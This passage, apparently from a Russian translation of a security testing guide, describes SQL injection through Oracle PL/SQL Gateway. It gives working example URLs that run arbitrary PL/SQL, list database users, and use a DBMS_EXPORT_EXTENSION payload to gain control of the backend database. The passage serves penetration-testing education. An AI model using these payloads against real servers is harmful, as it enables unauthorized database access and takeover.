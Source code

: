 Обратите внимание на наличие FOO в строке запроса злоумышленника. Атакующие могут злоупотреблять этим, чтобы запустить произвольный SQL. Во-первых, им нужно закрыть скобки :

`http://server.example.com/pls/dad/orasso.home?);--=BAR`

Это приводит к выполнению следующего PL / SQL:

```sql
..
orasso.home();--=>:);--);
..
```

Обратите внимание, что все после двойного минус (`-`) рассматривается как комментарий. Этот запрос вызовет ошибку внутреннего сервера, поскольку одна из переменных связывания больше не используется, поэтому злоумышленнику необходимо добавить ее обратно. Так получилось, что именно эта переменная привязки является ключом к запуску произвольного PL / SQL. На данный момент они могут просто использовать `HTP.PRINT` для печати BAR и добавить необходимую переменную привязки как: 1:

`http://server.example.com/pls/dad/orasso.home?);HTP.PRINT(:1);--=BAR`

Это должно вернуть `200` со словом «BAR» в HTML. Здесь происходит то, что все после знака равенства - в данном случае BAR - это данные, вставленные в переменную связывания. Используя ту же технику, можно также снова получить доступ к `owa_util.cellsprint`:

`http://www.example.com/pls/dad/orasso.home?);OWA_UTIL.CELLSPRINT(:1);--=SELECT+USERNAME+FROM+ALL_USERS`

Для выполнения произвольного SQL, включая операторы DML и DDL, злоумышленник вставляет немедленное выполнение: 1:

`http://server.example.com/pls/dad/orasso.home?);execute%20immediate%20:1;--=select%201%20from%20dual`

NВывод не будет отображаться. Это можно использовать для использования любых ошибок впрыска PL / SQL, принадлежащих SYS, что позволяет злоумышленнику получить полный контроль над сервером базы данных бэкэнда. Например, следующий URL использует недостатки SQL-инъекции в `DBMS_EXPORT_EXTENSION`

```txt
http://www.example.com/pls/dad/orasso.home?);
execute%20immediate%20:1;--=DECLARE%20BUF%20VARCHAR2(2000);%20BEGIN%20
BUF:=SYS.DBMS_EXPORT_EXTENSION.GET_DOMAIN_INDEX_TABLES('INDEX_NAME','INDEX_SCHEMA','DBMS_OUTPUT.PUT_LINE(:p1); EXECUTE%20IMMEDIATE%20''CREATE%20OR%20REPLACE%20
PUBLIC%20SYNONYM%20BREAKABLE%20FOR%20SYS.OWA_UTIL'';
END;--','SYS',1,'VER',0);END;
```

### Оценка пользовательских веб-приложений PL / SQL

Во время оценок безопасности черного ящика код пользовательского приложения PL / SQL недоступен, но его все еще необходимо оценить на предмет уязвимости безопасности.

#### Тестирование для SQL Injection

Каждый входной параметр должен быть проверен на наличие недостатков SQL-инъекции. Их легко найти и подтвердить. Найти их так же просто, как встроить одну цитату в параметр и проверить наличие ответов об ошибках (которые включают 404 ошибки Not Found). Подтверждение наличия SQL-инъекции может быть выполнено с помощью оператора конкатенации.
